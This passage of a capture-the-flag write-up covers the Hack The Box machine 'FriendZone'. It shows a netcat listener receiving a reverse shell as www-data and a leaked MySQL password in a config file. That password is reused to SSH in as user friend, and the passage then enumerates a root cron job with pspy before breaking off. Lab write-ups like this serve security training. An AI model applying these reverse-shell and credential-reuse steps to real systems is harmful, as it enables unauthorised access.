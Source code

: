 ```
root@kali:~/Documents/HTB/Boxes/FriendZone# nc -lvnp 9001
listening on [any] 9001 ...
        connect to [10.10.14.10] from (UNKNOWN) [10.10.10.123] 41828
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 17:50:10 up  2:17,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
friend   pts/0    10.10.14.10      15:34    2:14m  0.08s  0.08s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## User
Poking around on the site, we can find the following file under ```/var/www/mysql_data.conf```
```
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
if we try these credentials with SSH, we can login as user friend:
```
[root@kali FriendZone ]$ ssh -l friend $TARGET          
friend@10.10.10.123's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Jan 18 15:34:06 2022 from 10.10.14.10
friend@FriendZone:~$
```

## Root
First thing, as always we run linpeas.sh to enumerate the system for a privilege escalation.  
Since we do not found anything using linpeas.sh let's use pspy to snoop process and see if there is any cron running as root that is somehow exploitable.  
After a while we can see that this cron gets executed
```
2022/01/18 12:58:01 CMD: UID=0    PID=38713  | /usr/sbin/CRON -f
2022/01/18 13:00:01 CMD: UID=0    PID=38720  | /usr/bin/python /opt/server_admin/reporter.py
```
If we inspect the file, we can see that the script is owned by root and is not writable by the user friend.  
```
friend@FriendZone:/opt/server_admin$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 24  2019 .
drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
```
If we read the script, we can see the following content, actually nothing gets executed, so at a first glance seems that we cannot hijack the execution of this script.  
```
```